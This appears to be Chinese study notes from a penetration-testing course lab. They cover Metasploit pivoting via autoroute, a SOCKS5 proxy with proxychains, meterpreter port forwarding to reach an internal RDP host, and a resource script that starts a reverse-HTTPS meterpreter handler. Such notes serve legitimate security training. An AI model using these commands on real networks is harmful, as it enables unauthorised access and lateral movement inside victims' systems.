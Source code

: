 ```armasm
use multi/manage/autoroute
show options
sessions -l
set session 12
run
就可以自动添加192和172理由
```

设置代理

```armasm
use auxiliary/server/socks_proxy
show options
set SRVHOST 127.0.0.1
set VERSION 5
run -j

默认是1080端口
```

配置，使用

```armasm
tail /etc/proxychains4.conf

socks5 127.0.0.1 1080

sudo proxychains xfreerdp /v:172.16.5.200 /u:luiza
```

端口转发

```armasm
sessions -i 12
portfwd -h
portfwd add -l 3389 -p 3389 -r 172.16.5.200
sudo xfreerdp /v:127.0.0.1 /u:luiza
```

## 20.4 自动化MSF

### 20.4.1 资源脚本

创建脚本文件listener.rc

```armasm
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST 192.168.119.4
set LPORT 443
set AutoRunScript post/windows/manage/migrate 
set ExitOnSession false
run -z -j
```
